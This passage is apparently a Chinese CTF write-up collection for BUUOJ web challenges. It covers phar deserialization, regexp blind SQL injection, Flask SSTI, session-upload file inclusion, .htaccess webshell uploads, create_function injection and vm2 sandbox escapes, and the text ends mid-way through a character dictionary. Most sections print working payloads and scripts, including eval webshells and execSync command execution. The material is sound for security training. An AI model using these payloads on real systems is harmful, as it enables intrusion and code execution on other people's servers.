    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } 
} 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        } 
    } 
} 
?>
```

payload

```php
<?php

class C1e4r
{
    public $test;
    public $str;

}

class Show
{
    public $source;
    public $str;

}
class Test
{
    public $file;
    public $params;

}


$c = new Test();
$c->params = Array("source"=>"/var/www/html/f1ag.php");

$b = new Show();
$b->str = Array("str"=>$c);

$a = new C1e4r();
$a->str = $b;

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

最后注意一下上传后保存的文件名为 `md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"`, 网页右上角可以看到 remote addr


## [NCTF2019]SQLi（regexp盲注，;%00截断绕过注释）

`try to make the sqlquery have its own results`


robots.txt 里可以看到 hint.txt, 内容如下

```php
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

select 被过滤了, 基本上是查不出什么数据 (表名, 列名)

猜测是通过反斜杠逃逸单引号然后用万能密码


passwd 可以填 `||1` 来实现万能密码, 但是单引号的闭合是个问题, `#` `--+` `%00` 都被过滤了

看了 wp 发现闭合方式用的是 `;%00`, `%00` 截断的条件如下

> php < 5.3.4, 且 magic_quotes_gpc = Off 时可进行 `%00` 截断

但是 X-Powered-By 里的 php 版本是 5.6.40, 很奇怪...

payload 如下

```
username=123\&passwd=||1;%00
```


之后会跳转到 welcome.php, 但是这个文件并不存在

想了想根据 hint 的提示, 那只能去弄出 admin 的 password

发现黑名单中没有 regexp, 恰好双引号也没被过滤, 于是尝试利用 regexp 来注入

password 的字段猜测就为 `passwd` (与 post 提交的参数名一致)

python 脚本如下

```python
import requests
import time

url = 'http://edee5920-a1cf-4615-b4fb-81e7e628618c.node4.buuoj.cn:81/index.php'

dicts = '_0123456789abcdefghijklmnopqrstuvwxyz'

headers = {
    "Content-Type":"application/x-www-form-urlencoded"
}

flag = ''

for i in range(1, 99999):
    for s in dicts:
        time.sleep(0.2)
        payload = '/**/||/**/passwd/**/regexp/**/"^{}";%00'.format(flag + s)
        print(s)
        res = requests.post(url,data='username=123\\&passwd=' + payload, headers=headers, allow_redirects=False)
        if 'alert(' not in res.text:
            flag += s
            print('FOUND!!!',flag)
            break
```

跑出来结果是 `you_will_never_know7788990`

提交后得到 flag


## [RootersCTF2019]I_<3_Flask（SSTI）

简单 ssti

```
http://011d25fa-762b-4cd9-a1d8-b4dd5b395707.node4.buuoj.cn:81/?name={{config.__class__.__init__.__globals__['os']['popen']('cat flag.txt').read()}}
```


## [NPUCTF2020]ezinclude(文件包含（崩溃取临时文件/session_upload_progress）)


发现 hash 会随着用户名改变而改变, 然后根据下面的注释将 hash 填到 pass 里重新提交


文件包含, 试了下常规的日志路径都不行, 于是尝试利用 session\_upload\_progress 进行包含

```python
import threading
import requests

target = 'http://1bc9083e-6533-47ba-8a6c-3edc3b051e00.node4.buuoj.cn:81/flflflflag.php'
flag = 'hello'

def upload():
    files = [
        ('file', ('xx.txt', 'xxx'*10240)),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': "<?php file_put_contents('/tmp/xzxzxz', '<?php eval($_REQUEST[1]);phpinfo();?>');?>"}

    while True:
        res = requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )

def write():
    while True:
        response = requests.get(
            f'{target}?file=/tmp/sess_{flag}',
        )
        print('write',response.text)
        if 'phpinfo' in response.text:
            print('success')

for i in range(2):
    t1 = threading.Thread(target=upload)
    t2 = threading.Thread(target=write)
    t1.start()
    t2.start()
```


system 等函数被禁用了, flag 在 phpinfo 里



看 wp 的时候发现自己非预期了... 预期解是利用 php://filter 的过滤器让 php 进程崩溃, 然后在 dir.php 下能够看到 /tmp 目录下的临时文件名称, 最后通过包含临时文件来 getshell

参考文章

[https://www.cnblogs.com/tr1ple/p/11301743.html](https://www.cnblogs.com/tr1ple/p/11301743.html)

[https://www.cnblogs.com/linuxsec/articles/11278477.html](https://www.cnblogs.com/linuxsec/articles/11278477.html)

> php < 7.2: php://filter/string.strip_tags/resource=/etc/passwd
>
> php7 老版本通杀: php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA

脚本如下

```python
import threading
import requests

files = [
    ('file', ('xx.txt', '<?php phpinfo();?>')),
]

res = requests.post('http://e5352e08-ad57-4efe-a721-01303b3e75db.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd',files=files)

print(res.text)
```

访问 dir.php


最后包含该临时文件


## [HarekazeCTF2019]encode_and_encode(json_decode函数自动解码unicodephp://filter + base64 绕过正则，文件包含)

query.php

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

json decode 时会自动把 `\u` 开头的 Unicode 或者 `\x` 开头的 hex 转换为正常的字符串

在线工具 [https://tool.chinaz.com/tools/native_ascii.aspx](https://tool.chinaz.com/tools/native_ascii.aspx)

代码同时也对 content 做了过滤, 这里自然而然就想到了 php://filter + base64 绕过

```json
{"page": "\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0072\u0065\u0061\u0064\u003d\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067"}

{"page": "php://filter/read=convert.base64-encode/resource=/flag"}
```


## [SUCTF 2019]EasyWeb

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

限制挺猛的... 看的 wp

[https://github.com/team-su/SUCTF-2019/blob/master/Web/easyweb/wp/SUCTF 2019 Easyweb.md](https://github.com/team-su/SUCTF-2019/blob/master/Web/easyweb/wp/SUCTF 2019 Easyweb.md)

思路是利用可变变量 `${$a}` +  `$_GET` 跳出长度限制, 然后上传 .htaccess 配合 php.ini 中的设置 + php://filter 过滤器绕过内容检测

这里有个知识点: 字符与 `0xff` 异或相当于自身取反

构造 payload (刚好 18 字符)

```
${%A0%B8%BA%AB^%ff%ff%ff%ff}{%ff}();&%ff=phpinfo
```

其中 `%A0%B8%BA%AB` 就是 `_GET` 取反后的结果, 然后通过可变变量变成 `$_GET`

注意 get 传参的参数也得是不可见字符


flag 在 phpinfo 里面直接就能看到了... 预期解的思路是上传文件 然后利用 .htaccess 中的 `php_value` 来设置 php.ini 的部分内容 (类似 .user.ini), 然后利用 `auto_append_file` 插入 php 代码

但因为上传的文件中过滤了 `<?`, 所以我们需要通过 php://filter 中的过滤器来绕过 (`auto_append_file` 其实就是 include, 也支持伪协议), 方法很多 (utf-7 utf-16 base64 等等), 这里以 base64 为例

.htaccess

```php
#define width 1337
#define height 1337
AddType application/x-httpd-php .xxx

php_value auto_append_file "php://filter/read=convert.base64-decode/resource=123.xxx"
```

123.xxx

```
GIF89AaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pO3BocGluZm8oKTs/Pg
```

开头的 `GIF89A` 用来绕过 `exif_imagetype()`, 其中 `PD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pO3BocGluZm8oKTs/Pg` 后面本来要补两个 `=`, 但 `GIF89A` 一共 6 个字符, 所以干脆就把 `=` 删掉并在 `GIF89A` 后面补上了两个 a


连接查看 flag


环境还是跟原题不一样... 没办法了

## [CISCN2019 华东南赛区]Double Secret

根据提示猜了个 /secret

```
http://15fd0e7e-28c6-4777-a466-7eee2ff489bb.node4.buuoj.cn:81/secret?secret=asdasd
```

触发报错, 可以看到部分源码


rc4 加密, 密钥为 `HereIsTreasure`

网上找了一堆 rc4 加解密脚本都不行, 最后只能用 wp 里的脚本...

```python
import base64
from urllib.parse import quote

def rc4_main(key = "init_key", message = "init_message"):
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt

def rc4_init_sbox(key):
    s_box = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    return s_box

def rc4_excrypt(plain, box):
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    print("cipher: %s" %quote(cipher))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))

rc4_main("HereIsTreasure", r"{{url_for['__global''s__']['__builtins__']['__im''port__']('os')['p''open']('cat /flag.txt')['rea''d']()}}")
```

绕过很简单就不写了


## [网鼎杯2018]Unfinish(二次注入，异或注入)


register.php


登录后会显示用户名


猜测存在二次注入

注册时在 email 处试了好久都不行, 后来才发现是 username

```sql
email=aaa@qq.com&username=1'^(case when length(database())>0 then sleep(5) else 0 end)^'1&password=3
```


因为过滤了逗号, 不太好直接闭合, 所以改成用异或连接, 例如

```sql
'1'^true^'1' # true
'1'^false^'1' # false
```

整个表达式的真假性与中间的表达式一致, 第一条在登录后会显示 1, 第二条显示 0

wp 中用的是 `+`, 原理都差不多

题目过滤了 `,`  考虑用 `substring(a from b for c)`

同时 `information_shema` 也被过滤了, 并且 mysql 版本为 `5.5.64` 无 sys 库, 也没有启用 innoDB

于是猜测表名为 flag, 然后绕过列名直接进行无列名注入, 列数试一试就出来了

```python
import requests
import random
import re
import time

url = 'http://f3fab6bd-8df8-48a5-9e05-36ba8a4a3234.node4.buuoj.cn:81'

def register(sql):
    payload = "1'^({})^'1".format(sql)
    email = str(random.random()) + '@qq.com',
    data = {
    'email': email,
    'username': payload,
    'password': '1'
    }
    res = requests.post(url + '/register.php', data=data)
    if res.status_code == '200':
        print('error')
        exit()
    return email

def login(email):
    data = {
    'email': email,
    'password': '1'
    }
    res = requests.post(url + '/login.php', data=data)
    code = int(re.findall(r'<span class="user-name">\n[ ]{1,}(.*?)[ ]{1,}<\/span>', res.text)[0])
    return code


flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.3)
        mid = (min + max) // 2
        print('testing',chr(mid))
        sql = 'ascii(substring((select group_concat(`1`) from (select 1 union select * from flag)x) from {} for 1))>{}'.format(i,mid)
        if login(register(sql)):
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    print(flag)
    i += 1
```


## [GYCTF2020]EasyThinking（thinkphp6）


www.zip


thinkphp 6.0 筛子

参考文章 [https://www.anquanke.com/post/id/257485](https://www.anquanke.com/post/id/257485)

利用条件是 session 可控, 恰好 Member.php 中存在相关逻辑

```php
<?php
namespace app\home\controller;

use think\exception\ValidateException;
use think\facade\Db;
use think\facade\View;
use app\common\model\User;
use think\facade\Request;
use app\common\controller\Auth;

class Member extends Base
{

    public function index()
    {
        if (session("?UID"))
        {
            $data = ["uid" => session("UID")];
            $record = session("Record");
            $recordArr = explode(",", $record);
            $username = Db::name("user")->where($data)->value("username");
            return View::fetch('member/index',["username" => $username,"record_list" => $recordArr]);
        }
        return view('member/index',["username" => "Are you Login?","record_list" => ""]);
    }

    public function login()
    {
        if (Request::isPost()){
            $username = input("username");
            $password = md5(input("password"));
            $data["username"] = $username;
            $data["password"] = $password;
            $userId = Db::name("user")->where($data)->value("uid");
            $userStatus = Db::name("user")->where($data)->value("status");
            if ($userStatus == 1){
                return "<script>alert(\"该用户已被禁用，无法登陆\");history.go(-1)</script>";
            }
            if ($userId){
                session("UID",$userId);
                return redirect("/home/member/index");
            }
            return "<script>alert(\"用户名或密码错误\");history.go(-1)</script>";

        }else{
            return view('login');
        }
    }

    public function register()
    {
        if (Request::isPost()){
            $data = input("post.");
            if (!(new Auth)->validRegister($data)){
                return "<script>alert(\"当前用户名已注册\");history.go(-1)</script>";
            }
            $data["password"] = md5($data["password"]);
            $data["status"] = 0;
            $res = User::create($data);
            if ($res){
                return redirect('/home/member/login');
            }
            return "<script>alert(\"注册失败\");history.go(-1)</script>";
        }else{
            return View("register");
        }
    }

    public function logout()
    {
        session("UID",NULL);

        return "<script>location.href='/home/member/login'</script>";
    }

    public function updateUser()
    {
        $data = input("post.");
        $update = Db::name("user")->where("uid",session("UID"))->update($data);
        if($update){
            return json(["code" => 1, "msg" => "修改成功"]);
        }
        return json(["code" => 0, "msg" => "修改失败"]);
    }

    public function rePassword()
    {
        $oldPassword = input("oldPassword");
        $password = input("password");
        $where["uid"] = session("UID");
        $where["password"] = md5($oldPassword);
        $res = Db::name("user")->where($where)->find();
        if ($res){
            $rePassword = User::update(["password" => md5($password)],["uid"=> session("UID")]);
            if ($rePassword){
                return json(["code" => 1, "msg" => "修改成功"]);
            }
            return json(["code" => 0, "msg" => "修改失败"]);
        }
        return json(["code" => 0, "msg" => "原密码错误"]);
    }

    public function search()
    {
        if (Request::isPost()){
            if (!session('?UID'))
            {
                return redirect('/home/member/login');            
            }
            $data = input("post.");
            $record = session("Record");
            if (!session("Record"))
            {
                session("Record",$data["key"]);
            }
            else
            {
                $recordArr = explode(",",$record);
                $recordLen = sizeof($recordArr);
                if ($recordLen >= 3){
                    array_shift($recordArr);
                    session("Record",implode(",",$recordArr) . "," . $data["key"]);
                    return View::fetch("result",["res" => "There's nothing here"]);
                }

            }
            session("Record",$record . "," . $data["key"]);
            return View::fetch("result",["res" => "There's nothing here"]);
        }else{
            return View("search");
        }
    }
}
```

`search()` 方法将每一次的搜索结果追加到 session Record 中, 而搜索结果可控

先注册用户 123/123, 登录的时候注意更改 PHPSESSID (构造 32 位长度)


然后搜索, key 处填入 php 代码


最后访问 `/runtime/session/sess_aaaaaaaaaaaaaaaaaaaaaaaaaaaa.php`


蚁剑连接, 用 PHP7 Backtrace UAF bypass disable_function 执行命令


## [BJDCTF2020]EzPHP（$_SERVER['QUERY_STRING']的解析顺序特性）

右键注释 base32

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

`$_SERVER['QUERY_STRING']` 的特性是不会 urldeode, 而 `$_GET` 会进行 urldecode, 因此可以双重编码绕过

`$_REQUEST` 优先解析 `$_POST` 内容, 其实还是看配置文件, 默认情况下先解析了 `$_GET`, 只不过是后来解析的 `$_POST` 把前面的给覆盖掉了

`preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute')` 这句可以在末尾加上 `%0a` 绕过, 因为单行模式下 `$` 不匹配换行符

`file_get_contents` 和 sha1 的绕过就不说了, 很简单

`preg_match('/^[a-z0-9]*$/isD', $code)` 用根命名空间绕过, 例如 `\create_function`

最后的正则里面没有 require (system 也没有, 但好像是被禁用了), 于是通过 require + 伪协议配合取反字符串绕过

`$code('', $arg);` 就是 `create_function` 的形式, 可以闭合大括号来执行任意代码

payload 如下

```php
get: debu=aqua_is_cute
&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=\create_function&flag[arg]=return 0;}require(~%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f);//

post: debu=123&file=123
```

其中 get 要把字母部分 urlencode, 即

```php
%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67[%63%6f%64%65]=%5c%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=%72%65%74%75%72%6e+0;}%72%65%71%75%69%72%65(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%99%93%9E%98%D1%8F%97%8F);//
```


## [HFCTF2020]JustEscape

nodejs vm2 沙箱绕过

通过 `Error().stack` 可以看到路径为 `/app/node_modules/vm2/`


去学了一会 nodejs 安全, 参考文章如下

[http://thnpkm.xyz/index.php/archives/68/](http://thnpkm.xyz/index.php/archives/68/)

[https://bycsec.top/2020/04/20/Nodejs的一些技巧/](https://bycsec.top/2020/04/20/Nodejs的一些技巧/)

[https://xz.aliyun.com/t/7184](https://xz.aliyun.com/t/7184)

[https://xz.aliyun.com/t/11791](https://xz.aliyun.com/t/11791)

[https://xz.aliyun.com/t/7752](https://xz.aliyun.com/t/7752)

沙箱逃逸基本都是参照 GitHub 的 issue

[https://github.com/patriksimek/vm2/issues?q=breakout](https://github.com/patriksimek/vm2/issues?q=breakout)

随便找一个 [https://github.com/patriksimek/vm2/issues/225](https://github.com/patriksimek/vm2/issues/225)

然后发现程序 ban 了常用的关键词, 例如 eval process fs 单双引号这些

但是 nodejs 的语法很灵活, 字母可以通过 unicode / hex 转换来绕过, 单双引号可以用反引号代替

原 payload

```javascript
(function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("cat /flag").toString();
	}
})()
```

>  形如 `(function(){})` 或 `(function(){})()` 的表达式被称为 IIFE (立即调用函数表达式), 指函数在被定义之后就会立即执行

转 unicode, 之后再用 eval 配合 unicode 来构造

```javascript
\u0065val(`\u0028\u0066\u0075\u006e\u0063\u0074\u0069\u006f\u006e\u0028\u0029\u007b\u000a\u0009\u0054\u0079\u0070\u0065\u0045\u0072\u0072\u006f\u0072\u002e\u0070\u0072\u006f\u0074\u006f\u0074\u0079\u0070\u0065\u002e\u0067\u0065\u0074\u005f\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0020\u003d\u0020\u0066\u003d\u003e\u0066\u002e\u0063\u006f\u006e\u0073\u0074\u0072\u0075\u0063\u0074\u006f\u0072\u0028\u0022\u0072\u0065\u0074\u0075\u0072\u006e\u0020\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0022\u0029\u0028\u0029\u003b\u000a\u0009\u0074\u0072\u0079\u007b\u000a\u0009\u0009\u004f\u0062\u006a\u0065\u0063\u0074\u002e\u0070\u0072\u0065\u0076\u0065\u006e\u0074\u0045\u0078\u0074\u0065\u006e\u0073\u0069\u006f\u006e\u0073\u0028\u0042\u0075\u0066\u0066\u0065\u0072\u002e\u0066\u0072\u006f\u006d\u0028\u0022\u0022\u0029\u0029\u002e\u0061\u0020\u003d\u0020\u0031\u003b\u000a\u0009\u007d\u0063\u0061\u0074\u0063\u0068\u0028\u0065\u0029\u007b\u000a\u0009\u0009\u0072\u0065\u0074\u0075\u0072\u006e\u0020\u0065\u002e\u0067\u0065\u0074\u005f\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0028\u0028\u0029\u003d\u003e\u007b\u007d\u0029\u002e\u006d\u0061\u0069\u006e\u004d\u006f\u0064\u0075\u006c\u0065\u002e\u0072\u0065\u0071\u0075\u0069\u0072\u0065\u0028\u0022\u0063\u0068\u0069\u006c\u0064\u005f\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0022\u0029\u002e\u0065\u0078\u0065\u0063\u0053\u0079\u006e\u0063\u0028\u0022\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u0022\u0029\u002e\u0074\u006f\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0029\u003b\u000a\u0009\u007d\u000a\u007d\u0029\u0028\u0029`)
```


一些 wp 的做法是用模板拼接绕过, 这里给一个网上的 payload

```javascript
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()
```

还没搞懂是啥原理... 研究了一会发现以下两种方式都能够成功绕过

```javascript
`${`${`prototyp`}e`}`

`${`prototyp`}e`
```

另外用数组传参的形式同样也能绕过, 估计是 js 弱类型的锅

```javascript
code[]=......
```

## [网鼎杯 2020 半决赛]AliceWebsite

index.php

```php
<?php
$action = (isset($_GET['action']) ? $_GET['action'] : 'home.php');
if (file_exists($action)) {
    include $action;
} else {
    echo "File not found!";
}
?>
```

```
http://8b5c34ad-3966-4d22-8f82-978ee0b3af4e.node4.buuoj.cn:81/index.php?action=../../../flag
```

pearcmd.php 也能一把梭

## [GXYCTF2019]StrongestMind

计算加减乘除一千次得到 flag

没啥好说的, 用正则匹配一下然后写脚本就行

```python
import requests
import time
import re

s = requests.Session()
stack = []

url = 'http://a0d88148-9160-4523-8230-3f7b8371580c.node4.buuoj.cn:81/'
res = s.get(url)
res.encoding = "utf-8"
quiz = re.findall(r'<br>([0-9]+.*?[\+\-\*\/].*?[0-9]+)<br>', res.text)[0]
stack.append(quiz)

for i in range(1001):
    time.sleep(0.05)
    quiz = stack.pop()
    ans = eval(quiz)
    res = s.post(url, data={'answer': ans})
    res.encoding = "utf-8"
    print(res.text)
    quiz = re.findall(r'<br>([0-9]+.*?[\+\-\*\/].*?[0-9]+)<br>', res.text)[0]
    stack.append(quiz)
```

## [SUCTF 2018]GetShell


fuzz 可用字符


看到 `~` 感觉思路是取反, 但是用 `(~"xxx")()` 的形式会爆 500

于是换个思路, 挨个挨个构造字母

参考文章 [https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

fuzz 字符

```php
<?php

$dicts = '当我站在山顶上俯瞰半个鼓浪屿和整个厦门的夜空的时候我知道此次出行的目的已经完成了我要开始收拾行李明天早上离开这里前几天有人问我大学四年结束了你也不说点什么乌云发生了一些事情所有人都缄默不言你也是一样吗你逃到南方难道不回家了吗当然要回家我只是想找到我要找的答案其实这次出来一趟很累晚上几乎是热汗淋漓回到住处厦门的海风伴着妮妲路过后带来的淅淅沥沥的小雨也去不走我身上任何一个毛孔里的热气好在旅社的生活用品一应俱全洗完澡后我爬到屋顶旅社是一个老别墅说起来也不算老比起隔壁一家旧中国时期的房子要豪华得多竖立在笔山顶上与厦门岛隔海相望站在屋顶向下看灯火阑珊的鼓浪屿街市参杂在绿树与楼宇间依稀还可以看到熙熙攘攘的游客大概是夜晚渐深的缘故周围慢慢变得宁静下来我忘记白天在奔波什么直到站在这里的时候我才知道我寻找的答案并不在南方当然也不在北方北京的很多东西让我非常丧气包括自掘坟墓的中介和颐指气使的大人们北京也有很多东西让我喜欢我喜欢颐和园古色古香的玉澜堂我喜欢朝阳门那块永延帝祚的牌坊喜欢北京鳞次栉比的老宅子和南锣鼓巷的小吃但这些都不是我要的答案我也不知道我追随的是什么但想想百年后留下的又是什么想想就很可怕我曾经为了吃一碗臭豆腐坐着优步从上地到北海北兴冲冲地来到那个垂涎已久的豆腐摊前用急切又害羞的口吻对老板说来两份量的臭豆腐其实也只要块钱吃完以后便是无与伦比的满足感我记得那是毕业设计审核前夕的一个午后五月的北京还不算炎热和煦的阳光顺着路边老房子的屋檐洒向大地但我还是不敢站在阳光下春天的燥热难耐也绝不输给夏天就像很多人冷嘲热讽的那样做这一行谁敢把自己完全曝光甭管你是黑帽子白帽子还是绿帽子生活在那个时候还算美好我依旧是一个学生几天前辞别的同伴还在朝九晚五的工作一切都照旧运行波澜不惊远走千里吃豆腐这种理想主义的事情这几年在我身上屡屡发生甚至南下此行也不例外一年前的这个时候我许过一个心愿在南普陀我特为此来还愿理想化单纯与恋旧其中单纯可不是一个多么令人称赞的形容很多人把他和傻挂钩你太单纯了你还想着这一切会好起来对呀在男欢女爱那些事情上我可不单纯但有些能让人变得圆滑与世故的抉择中我宁愿想的更单纯一些去年冬天孤身一人来到北京放弃了在腾讯做一个安逸的实习生的机会原因有很多也很难说在腾讯短暂的实习生活让我记忆犹新我感觉这辈子不会再像一个小孩一样被所有人宠了这些当我选择北漂的时候应该就要想到的北京的冬天刺骨的寒冷特别是年的腊月有几天连续下着暴雪路上的积雪一踩半步深咯吱咯吱响周遭